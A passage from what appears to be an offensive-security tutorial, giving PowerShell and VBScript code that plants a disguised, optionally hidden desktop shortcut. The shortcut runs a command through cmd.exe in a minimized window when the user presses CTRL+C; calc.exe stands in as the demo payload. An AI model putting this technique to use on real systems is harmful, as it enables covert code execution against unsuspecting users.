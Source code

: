 ```powershell
$path                      = "$([Environment]::GetFolderPath('Desktop'))\FakeText.lnk"
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)

$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"

$shortcut.TargetPath       = "cmd.exe"
$shortcut.Arguments        = "/c calc.exe"
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey           = "CTRL+C"
$shortcut.Description      = "Nope, not malicious"

$shortcut.WindowStyle      = 7
                           # 7 = Minimized window
                           # 3 = Maximized window
                           # 1 = Normal    window
$shortcut.Save()

(Get-Item $path).Attributes += 'Hidden' # Optional if we want to make the link invisible (prevent user clicks)
```
Fortunately for us, the code is not too complex. 

First of all, on line 1, we declare a variable which points to the victim's desktop directory. Afterwards, we start to slowly modify our shortcut to meet our needs. We start by giving it a believable icon, set it up to execute malicious code (`calc.exe` for demo purposes) and set the window style to minimized in order for the command prompt to not pop up once the shortcut is executed. Additionally, we can obscure the shortcut from the user's view by making it invisible by setting the *Hidden* attribute.

## VBA, VBScript
The code below has the same functionality as the PowerShell one, albeit written in a different language.
```vb
Set wshell = CreateObject("WScript.Shell")

Dim path
path = wshell.SpecialFolders("Desktop") & "/FakeText.lnk"

Set shortcut              = wshell.CreateShortcut(path)
shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"
shortcut.WindowStyle      = 7
shortcut.TargetPath       = "cmd.exe"
shortcut.Arguments        = "/c calc.exe"
shortcut.WorkingDirectory = "C:"
shortcut.HotKey           = "CTRL+C"
shortcut.Description      = "Nope, not malicious"
shortcut.Save

' Optional if we want to make the link invisible (prevent user clicks)
Set fso       = CreateObject("Scripting.FileSystemObject")
Set mf        = fso.GetFile(path)
mf.Attributes = 2
```
